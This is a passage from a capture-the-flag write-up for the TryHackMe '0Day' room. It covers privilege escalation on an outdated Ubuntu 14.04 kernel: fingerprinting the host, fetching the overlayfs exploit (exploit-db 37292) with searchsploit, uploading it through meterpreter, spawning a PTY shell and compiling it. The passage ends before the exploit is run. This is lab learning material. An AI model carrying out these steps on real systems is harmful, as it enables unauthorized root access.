 Regarding privilege escalation, it's worth noting that the Ubuntu system we are using is quite outdated

```bash
$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
```

After conducting a brief research, it looks like this particular version is vulnerable to:

[Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)

Now let's try and search the exploit using searchploit, then copy to our working directory:

```bash
┌──(nxg㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ searchsploit -m 37292   
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators
```

Copied to: `/home/nxg/Desktop/THM/0Day/37292.c`

```bash                                                                                           
┌──(nxg㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ dos2unix 37292.c   
dos2unix: converting file 37292.c to Unix format...
```

We now upload the exploit using meterpreter

```bash
meterpreter > cd /tmp
meterpreter > upload 37292.c
[*] uploading  : 37292.c -> 37292.c
[*] Uploaded -1.00 B of 4.85 KiB (-0.02%): 37292.c -> 37292.c
[*] uploaded   : 37292.c -> 37292.c
```

To compile it with gcc, we'll need to open a shell.

```bash
meterpreter > shell
Process 1182 created.
Channel 74 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -o exploit 37292.c
gcc -o exploit 37292.c
www-data@ubuntu:/tmp$ ls -al exploit
ls -al exploit
-rwxr-xr-x 1 www-data www-data 13652 Jun 11 03:54 exploit
```
